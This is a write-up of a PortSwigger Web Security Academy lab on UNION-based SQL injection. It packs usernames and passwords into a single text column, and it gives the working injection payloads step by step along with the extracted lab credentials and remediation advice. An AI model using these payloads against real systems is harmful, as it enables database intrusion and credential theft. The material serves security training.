


# SQL Injection — UNION Attack: Retrieving Multiple Values in a Single Column

> PortSwigger Web Security Academy lab — training environment, not a real-world system.
> Lab: *SQL injection UNION attack, retrieving multiple values in a single column* (Practitioner)

## Summary

The query returns **2 columns**, but only **one of them accepts string data** — a plain `UNION SELECT username, password FROM users--` therefore fails with a type mismatch, since it tries to put text into both. By concatenating `username` and `password` together with a separator and placing the result in the single text-compatible column, I retrieved both values from one column and logged in as `administrator`.

## Vulnerability

- **Type:** SQL Injection (SQLi) → UNION-based — CWE-89
- **Location:** `GET /filter`, `category` parameter
- **Severity:** High (full extraction of unrelated table data, including credentials, via a single usable column)

## Expected query

The filter appears to build a query like:

```sql
SELECT name, price FROM products WHERE category = 'Toys & Games' AND released = 1
```
`name` is text; `price` is numeric — so only one of the two UNION columns can legally hold a string.

## Steps to reproduce

1. Captured the `GET /filter?category=...` request in Burp **Repeater**.
2. Confirmed the column count with `ORDER BY`:
   ```
   Toys & Games' ORDER BY 2--   -> 200 OK
   Toys & Games' ORDER BY 3--   -> error (confirms exactly 2 columns)
   ```
3. Tried a naive two-column extraction, which failed with a **500 Internal Server Error**:
   ```
   Toys & Games' UNION SELECT 'a','b'--
   ```
4. Tested each column position individually with `NULL` in the other slot to find which one accepts text:
   ```
   Toys & Games' UNION SELECT 'a',NULL--   -> error
   Toys & Games' UNION SELECT NULL,'a'--   -> 200 OK
   ```
   Column 2 is the text-compatible column.
5. Concatenated both target values into that single column, separated by `~`:
   ```
   Toys & Games' UNION SELECT NULL, username || '~' || password FROM users--
   ```
6. The response rendered one row per user as a fake product name:
   ```
   carlos~am72nriia1dgcx0kt7l4
   administrator~ffvpcclmmdbslxojtqz7
   wiener~7u2vr8v2nq23ltsm1jjv
   ```
7. Logged in at `/login` as `administrator` / `ffvpcclmmdbslxojtqz7`. Lab solved.

## Why the payload works

The injected query becomes:

```sql
SELECT name, price FROM products WHERE category = 'Toys & Games'
UNION SELECT NULL, username || '~' || password FROM users--' AND released = 1
```

- `'` — closes the category string.
- `NULL` in column 1 — avoids a type error in the column that only takes numeric/other data.
- `username || '~' || password` — the string concatenation operator joins both target values into one string, placed entirely in the one column that accepts text.
- `'~'` — an arbitrary separator not expected to appear in either value, making the combined string easy to split back into its two parts by eye (or programmatically).
- `--` — comments out the rest of the original query.

Only one column being text-compatible would normally limit extraction to a single piece of data per row. Concatenation works around that by packing multiple values into the one column that's actually usable.

## Impact

Even a table with only one usable text column is enough to exfiltrate an arbitrary number of fields from any other table — here, full username/password pairs, including an administrator account, extracted through a product filter that was never intended to expose user data at all.

## Remediation

- **Parameterised queries / prepared statements** — the primary fix; user input can never alter the query structure or trigger a UNION.
- **Least-privilege database account** so the web app's queries can't reach unrelated tables like `users` in the first place.
- Don't expose distinguishing 500-vs-200 error behaviour on type mismatches — it's exactly what made column-mapping possible here.

## Screenshots




